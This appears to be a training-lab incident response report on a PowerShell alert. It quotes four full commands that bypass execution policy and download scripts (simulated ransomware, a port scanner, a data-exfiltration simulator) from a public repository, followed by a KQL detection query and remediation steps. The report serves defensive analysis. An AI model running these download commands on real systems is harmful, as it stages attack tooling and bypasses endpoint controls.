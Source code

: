 ## Incident Response Report: PowerShell Suspicious Web Request

Incident ID: IR20250623-001

Date: June 23, 2025

---

### Detection and Analysis

On June 23, 2025, an incident titled "**PowerShell Suspicious Web Req.**" was triggered on **windows-target-1**. The alert indicated that **four different PowerShell scripts** were downloaded via `Invoke-WebRequest` commands. The incident was triggered by **one user** on this single device.

The following PowerShell commands were executed:

- `powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/pwncrypt.ps1 -OutFile C:\programdata\pwncrypt.ps1`
- `powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/eicar.ps1 -OutFile C:\programdata\eicar.ps1`
- `powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/portscan.ps1 -OutFile C:\programdata\portscan.ps1`
- `powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/exfiltratedata.ps1 -OutFile C:\programdata\exfiltratedata.ps1`

Upon contacting the affected user, they stated that they attempted to install "free software," observed a momentary black screen, and then "nothing happened."

Further investigation using **Microsoft Defender for Endpoint (MDE)** confirmed that the downloaded scripts did run. The following KQL query was used to verify script execution:

Code snippet;

`let TargetHostname = "windows-target-1";
let ScriptNames = dynamic(["eicar.ps1", "exfiltratedata.ps1", "portscan.ps1", "pwncrypt.ps1"]);
DeviceProcessEvents
| where DeviceName == TargetHostname
| where FileName == "powershell.exe"
| where ProcessCommandLine contains "-File" and ProcessCommandLine has_any (ScriptNames)
| order by TimeGenerated
| project TimeGenerated, AccountName, DeviceName, FileName, ProcessCommandLine
| summarize Count = count() by AccountName, DeviceName, FileName, ProcessCommandLine`

The downloaded scripts were submitted to the malware reverse engineering team, who provided the following analysis:

- **pwncrypt.ps1:** A PowerShell script simulating ransomware encryption.
- **eicar.ps1:** A PowerShell script designed to generate the EICAR test file for antivirus testing.
- **portscan.ps1:** A PowerShell script for performing network port scanning.
- **exfiltratedata.ps1:** A PowerShell script simulating data exfiltration.

---

### Containment, Eradication, and Recovery

1. The affected machine, **windows-target-1**, was immediately **isolated** in Microsoft Defender for Endpoint.
2. A full anti-malware scan was initiated on the isolated machine.
3. After the scan completed with no detected threats, the machine was **removed from isolation**.

---

### Post-Incident Activities

1. The affected user was enrolled in **additional cybersecurity awareness training**, and the organization's training package with KnowBe4 was upgraded.
2. Implementation of a new policy restricting PowerShell usage for non-essential users has begun to prevent similar incidents.
